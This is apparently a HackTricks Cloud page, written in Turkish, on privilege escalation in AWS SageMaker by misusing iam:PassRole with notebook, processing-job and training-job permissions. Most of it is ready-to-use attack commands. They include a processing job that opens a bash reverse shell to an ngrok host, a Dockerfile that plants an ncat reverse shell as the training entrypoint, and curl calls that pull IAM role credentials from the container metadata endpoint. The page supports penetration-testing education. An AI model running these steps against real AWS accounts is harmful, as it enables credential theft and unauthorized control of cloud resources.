# AWS - Sagemaker Privesc

## AWS - Sagemaker Privesc

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

### `iam:PassRole` , `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

Bağlı olduğu IAM Rolü ile bir not defteri oluşturmaya başlayın:
```bash
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
Yanıt, yeni oluşturulan defter örneğinin ARN'sini içerecek `NotebookInstanceArn` alanını içermelidir. Ardından, defter örneğine hazır olduğunda erişmek için kullanabileceğimiz bir URL oluşturmak için `create-presigned-notebook-instance-url` API'sini kullanabiliriz:
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
Tarayıcı ile URL'ye gidin ve sağ üstteki \`Open JupyterLab\`\` butonuna tıklayın, ardından “Launcher” sekmesine kaydırın ve “Other” bölümünde “Terminal” butonuna tıklayın.

Artık IAM Rolünün metadata kimlik bilgilerine erişmek mümkündür.

**Olası Etki:** Belirtilen sagemaker hizmet rolüne privesc.

### `sagemaker:CreatePresignedNotebookInstanceUrl`

Eğer üzerinde Jupyter **notebook'lar zaten çalışıyorsa** ve bunları `sagemaker:ListNotebookInstances` ile listeleyebiliyorsanız (veya başka bir şekilde keşfedebiliyorsanız). Onlar için **bir URL oluşturabilir, erişebilir ve önceki teknikte belirtildiği gibi kimlik bilgilerini çalabilirsiniz**.
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**Potansiyel Etki:** Sagemaker hizmet rolüne privesc.

### `sagemaker:CreateProcessingJob,iam:PassRole`

Bu izinlere sahip bir saldırgan, **sagemaker'ın bir processingjob** çalıştırmasını sağlayabilir ve buna bir sagemaker rolü ekleyebilir. Saldırgan, **AWS yönetimli ECS hesap örneğinde** çalıştırılacak konteynerin tanımını belirtebilir ve **ekli IAM rolünün kimlik bilgilerini çalabilir**.
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**Potansiyel Etki:** Belirtilen sagemaker hizmet rolüne privesc.

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

Bu izinlere sahip bir saldırgan, bir eğitim işi oluşturabilecek, **üzerinde rastgele bir konteyner çalıştırarak** ona **bağlı bir rol** ile. Bu nedenle, saldırgan rolün kimlik bilgilerini çalabilecektir.

{% hint style="warning" %}
Bu senaryo, önceki senaryodan daha zor istismar edilebilir çünkü bir Docker imajı oluşturmanız gerekiyor, bu imaj rev shell veya kimlik bilgilerini doğrudan saldırgana gönderecek (eğitim işinin yapılandırmasında bir başlangıç komutu belirtemezsiniz).
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**Potansiyel Etki:** Belirtilen sagemaker hizmet rolüne privesc.

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

Bu izinlere sahip bir saldırgan, **bir hiperparametre eğitim işi** oluşturma yeteneğine (potansiyel olarak) sahip olacaktır, **üzerinde rastgele bir konteyner çalıştırarak** ve ona **bir rol ekleyerek**.\
_Zaman eksikliğinden dolayı bunu istismar etmedim, ancak önceki istismarlarla benzer görünüyor, istismar detaylarıyla bir PR göndermekten çekinmeyin._

## Referanslar

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.**

</details>
{% endhint %}
